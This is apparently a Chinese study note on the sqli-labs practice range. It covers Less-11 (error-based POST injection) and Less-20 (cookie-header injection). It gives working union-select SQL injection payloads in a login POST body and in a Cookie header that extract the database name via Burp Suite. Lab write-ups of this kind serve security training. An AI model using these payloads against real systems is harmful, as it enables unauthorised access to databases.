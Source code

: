 ```yaml
---
title: 3.3SQL注入靶场案例练习
url: https://www.yuque.com/u29002979/ep2zrx/4a393a709fadf3cc1d2dbd5bbc2bb2ac
---
```


<h1>SQL注入靶场案例练习</h1>
<h3>Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)</h3>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/248050e80cb94ba4819ece5c9a45072d.png" alt="image.png" class="align-none" /></p>
<p><strong>用burpsuit，抓包修改参数</strong></p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5a2399e3e7a0467abd0dab8e36ad9550.png" alt="image.png" class="align-none" /></p>
<p>联合查询union select测试payload</p>
<p>uname=admin' union select 1,2  --+&amp;passwd=admin&amp;submit=Submit</p>
<p>爆库payload</p>
<p>uname=admin' union select 1,database() --+&amp;passwd=admin&amp;submit=Submit</p>
<h3><strong>Less-20</strong> POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)</h3>
<p>单引号，报错型，cookie型注入。</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/5f681aa84f7144c5aa6471c997b61896.png" alt="image.png" class="align-none" /></p>
<p>存在魔术引号</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/7970543bbc6a4225a7479a1e73d412c1.png" alt="image.png" class="align-none" /></p>
<p>直接cookie注入，进行绕过</p>
<p>Cookie: uname=-admin' union select 1,2,database()--+</p>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645703752000/4240a5acf9ed49ac8326cdd95dc252d7.png" alt="image.png" class="align-none" /></p>
